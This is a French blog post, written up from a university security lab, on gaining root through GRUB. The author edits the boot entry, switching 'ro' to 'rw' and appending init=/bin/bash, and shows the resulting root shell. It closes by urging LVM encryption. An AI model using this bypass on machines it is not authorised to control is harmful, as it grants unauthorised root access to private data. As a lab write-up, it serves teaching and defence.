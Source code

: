 ```yaml
---
author: FreezingKas
title: L'élévation de privilèges la plus rapide sur GRUB
description: Dans ce billet, FreezingKas vous apprendra à élever vos privilèges sur un serveur à l'aide de GRUB.
slug: fastest-grub-privilege-escalation
date: 2023-03-24 00:00:00+0000
#lastUpdated: Jul 24, 2023 10:00 UTC
image: assets/grub.jpg
categories:
    - Privilege Escalation
tags:
    - Grub
    - System
    - Linux
---
```


# Privesc la plus rapide sur GRUB
## Contexte

Pendant le cours de sécurité des réseaux, j'ai eu un laboratoire avec sept serveurs sur un Proxmox créé par notre professeur sans utilisateur root.

Après avoir rapporté toutes les élévations de privilèges avec les commandes `sudo`, mon professeur a décidé de désactiver toutes les commandes `sudo` jusqu'à ce qu'il trouve une solution.

Malheureusement, cela n'a pas suffi.

## Privesc

Grub est un bootloader qui permet de choisir le système d'exploitation à démarrer.

Il était installé sur les serveurs, et je pouvais éditer des scripts de démarrage :

```bash
recordfail
load_video
gfxmode $linux_gfx_mode
insmod gzio
if [ x$grub_platform = xxen ] ; then insmod xzio ; insmod lzopio ; fi
insmod part_gpt
insmod ext2
search --no-floppy --fs-uuid --set=root <UUID>
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
initrd /boot/initrd.img-5.15.0-56-generic
```

Dans notre cas, la LVM n'était pas chiffré, nous pouvions donc accéder aux fichiers en lançant un shell root :

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
```

Remplacez simplement `ro` (read_only) par `rw` (read-write) et ajoutez init=/bin/bash à la fin de la ligne, puis redémarrez le serveur.

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> rw quiet splash $vt_handoff init=/bin/bash
```

Nous pouvons maintenant accéder à l'utilisateur root.

```bash
root@(none):/$ id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

Veuillez chiffrer vos LVM. Imaginez qu'il ne s'agisse pas d'un laboratoire, mais d'un ordinateur portable d'entreprise contenant des documents confidentiels.
Lorsque vous chiffrez les LVM, vous ne pouvez pas lire les fichiers lorsque vous changez `ro` en `rw` dans le fichier grub, une phrase d'authentification est nécessaire.
